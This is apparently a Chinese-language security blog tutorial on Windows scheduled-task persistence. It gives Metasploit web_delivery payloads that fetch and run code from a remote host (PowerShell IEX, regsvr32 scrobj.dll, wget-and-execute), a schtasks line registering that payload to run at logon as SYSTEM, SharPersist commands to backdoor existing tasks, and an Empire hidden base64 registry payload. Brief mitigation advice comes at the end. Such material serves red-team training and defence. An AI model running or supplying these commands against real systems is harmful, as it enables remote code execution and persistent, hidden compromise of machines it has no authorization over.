Author：zusheng
Link：https://isbase.cc
Scheduled Tasks即任务计划程序，Scheduled Tasks能够在计算机上自动执行例行任务，Task Scheduler通过监视你选择的条件（称为触发器），然后在满足这些条件时执行任务。我们可以使用Task Scheduler启动应用程序，发送电子邮件或显示消息框。
触发器：

Schtasks.exe能够在本地或远程计算机上创建，删除，查询，更改，运行和结束计划任务。不带参数运行Schtasks.exe会显示每个已注册任务的状态和下一次运行时间。
创建任务：
schtasks /Create[/S system [/U username [/P [password]]]][/RU username [/RP [password]] /SC schedule [/MO modifier] [/D day][/M months] [/I idletime] /TN taskname /TR taskrun [/ST starttime][/RI interval] [ {/ET endtime | /DU duration} [/K][/XML xmlfile] [/V1]] [/SD startdate] [/ED enddate] [/IT] [/Z] [/F]
删除任务：
xxxxxxxxxxschtasks /Delete[/S system [/U username [/P [password]]]][/TN taskname] [/F]
运行任务：
xxxxxxxxxxschtasks /Run[/S system [/U username [/P [password]]]]/TN taskname
结束正在运行的任务：
xxxxxxxxxxschtasks /End[/S system [/U username [/P [password]]]]/TN taskname
查询任务信息：
xxxxxxxxxxschtasks /Query[/S system [/U username [/P [password]]]][/FO format | /XML] [/NH] [/V] [/TN taskname] [/?]
变更任务：
xxxxxxxxxxschtasks /Change[/S system [/U username [/P [password]]]] /TN taskname{ [/RU runasuser] [/RP runaspassword] [/TR taskrun] [/ST starttime][/RI interval] [ {/ET endtime | /DU duration} [/K] ][/SD startdate] [/ED enddate] [/ENABLE | /DISABLE] [/IT] [/Z] }
Scheduled Tasks持久化技术可以手动或自动的进行利用。在Metasploit中，我们可以利用Script Web Delivery模块托管和生成各种格式的payload。
xxxxxxxxxx模块名：Script Web Delivery模块路径：exploit/multi/script/web_delivery
Script Web Delivery模块可以快速启动一个用于存放Payload的web服务器。使用Script Web Delivery模块结合Scheduled Tasks持久化技术利用的基本思路在于远程加载Payload。
加载Script Web Delivery模块并设置相关参数。

Script Web Delivery模块默认payload为python/meterpreter/reverse_tcp，这里我们设置payload为windows/x64/meterpreter/reverse_tcp。
主要有以下Targets
Targets为Python时,生成的payload如下：
xxxxxxxxxxpython -c "import sys;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('#{get_uri}');exec(r.read());"
Targets为PHP时,生成的payload如下：
xxxxxxxxxxphp -d allow_url_fopen=true -r "eval(file_get_contents('#{get_uri}'));"
Targets为PSH时,生成的payload如下：
xxxxxxxxxxpowershell.exe -nop -w hidden -c $H=new-object net.webclient;$H.proxy=[Net.WebRequest]::GetSystemWebProxy();$H.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $H.downloadstring('http://192.168.235.129:8080/n8hDAIbCNMgO');
Targets为Regsvr32时,生成的payload如下：
xxxxxxxxxxregsvr32 /s /n /u /i:http://192.168.235.129:8080/IPzpKcrXeff.sct scrobj.dll
Targets为pubprn时,生成的payload如下：
xxxxxxxxxxC:\\Windows\\System32\\Printing_Admin_Scripts\\en-US\\pubprn.vbs 127.0.0.1 script:#{get_uri}.sct
Targets为PSH (Binary)时,生成的payload如下：(在硬盘写入文件)
xxxxxxxxxxpowershell.exe -nop -w hidden -c $z="echo ($env:temp+'\VfpawmXm.exe')"; (new-object System.Net.WebClient).DownloadFile('http://192.168.235.129:8080/QS03dpwdho', $z); invoke-item $z*
Targets为Linux时,生成的payload如下：
xxxxxxxxxxwget -qO #{fname} --no-check-certificate #{get_uri}; chmod +x #{fname}; ./#{fname}&
我们这里设置Targets为3，Targets 3是利用regsvr32远程加载payload，然后我们再利用Schtasks.exe将其加入计划任务中：
xxxxxxxxxxschtasks /create /tn IStest /tr "regsvr32 /s /n /u /i:http://192.168.235.129:8080/IPzpKcrXeff.sct scrobj.dll" /sc onlogon /ru System

当任意用户登录时，恶意脚本成功运行。

regsvr32.exe用于注册Windows操作系统的动态链接库和ActiveX控件。
xxxxxxxxxxregsvr32 [/u] [/s] [/n] [/i[:cmdline]] DLL文件名。/u：反注册DLL文件;/s：安静模式(Silent)执行命令，即在成功注册/反注册DLL文件前提下不显示结果提示框。/c：控制端口;/i：在使用/u反注册时调用DllInstall;/n：不调用DllRegisterServer，必须与/i连用。
前面我们都是手工针对计划任务进行利用，安全研究员Brett Hawkins开发了一款Windows持久化利用工具包SharPersist。
工具地址：https://github.com/fireeye/SharPersist
技术表：
| 技术 | 描述 | 技术相关参数开关（-t） | 是否需要管理员特权 | 是否操作注册表 | 是否添加/修改/删除磁盘上的文件 |
|---|---|---|---|---|---|
| KeePass | 具有恶意触发器的KeePass后门配置文件 | keepass | 否 | 否 | 是 |
| New Scheduled Task | 创建新的计划任务运行指定的命令 | schtask | 否 | 否 | 是 |
| Registry | 修改注册表 | reg | 否 | 是 | 否 |
| Startup Folder | 用户启动文件夹持久化利用 | startupfolder | 否 | 否 | 是 |
| Tortoise SVN Hook Script | 用户连接到SVN存储库时使用Tortoise SVN钩子脚本执行命令 | tortoisesvn | 否 | 是 | 否 |
| New Service | Windows服务持久化利用 | service | 是 | 是 | 否 |
| Scheduled Task Backdoor | 向现有计划任务添加其他操作 | schtaskbackdoor | 是 | 否 | 是 |
这里我们主要介绍New Scheduled Task和Scheduled Task Backdoor两项技术。
创建新的计划任务
xxxxxxxxxxSharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "testTask" -m add -o logon

列出特定的计划任务，识别所有者，触发器和要执行的动作
xxxxxxxxxxSharPersist -t schtask -m list -n "testTask"

xxxxxxxxxxSharPersist -t schtask -m list -o logon

xxxxxxxxxxSharPersist -t schtask -m list //列出所有计划任务
check功能
SharPersist的check功能可以检查名称和提供的参数是否可用。

Scheduled Task Backdoor
利用Scheduled Task Backdoor我们可以检查是否存在可以修改的计划任务以运行Payload，而不是创建新计划任务。
xxxxxxxxxxSharPersist -t schtaskbackdoor -m list -o logon //列出logon计划任务

xxxxxxxxxxSharPersist.exe -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c whoami" -n "testTask" -m check //检查是否可以修改

xxxxxxxxxxSharPersist.exe -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c whoami" -n "testTask" -m add //将后门添加到现有的计划任务中
Empire中有以下两个模块可以实施计划任务的持久化技术。
xxxxxxxxxxpersistence/userland/schtaskspersistence/elevated/schtasks*
使用persistence/userland/schtasks模块会在目标计算机上创建一个名称为WindowsUpdate的计划任务，这里名称可以自定义设置。


xxxxxxxxxx-NonI -W hidden -c "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))"
Payload以base64字符串存放在注册表HKCU:\Software\Microsoft\Windows\CurrentVersion debug中

使用persistence/elevated/schtasks*模块需要管理员权限

目标计算机上会创建一个名称为Updater的计划任务，当任意用户登录时触发然后以SYSTEM用户启动。

当服务器重启用户登录时

审计
PowerSploit框架之类的工具包包含PowerUp模块，这些模块可用于探索系统以查找计划任务中的权限弱点，这些弱点可用于权限提升。
操作系统配置
配置计划任务的设置，以强制任务在经过身份验证的帐户的上下文中运行，而不是允许它们以SYSTEM身份运行。关联的注册表项位于HKLM\SYSTEM\CurrentControlSet\Control\Lsa\SubmitControl。可以通过GPO配置该设置：计算机配置> [策略]> Windows设置>安全设置>本地策略>安全选项：域控制器：允许服务器操作员安排任务，设置为禁用。
特权账户管理
将“增加调度优先级”选项配置为仅允许管理员组有权调度优先级进程。可以通过GPO进行配置：计算机配置> [策略]> Windows设置>安全设置>本地策略>用户权限分配：增加计划优先级。
用户帐号管理
限制用户帐户的特权并修复权限提升，以便只有授权的管理员才能在远程系统上创建计划的任务。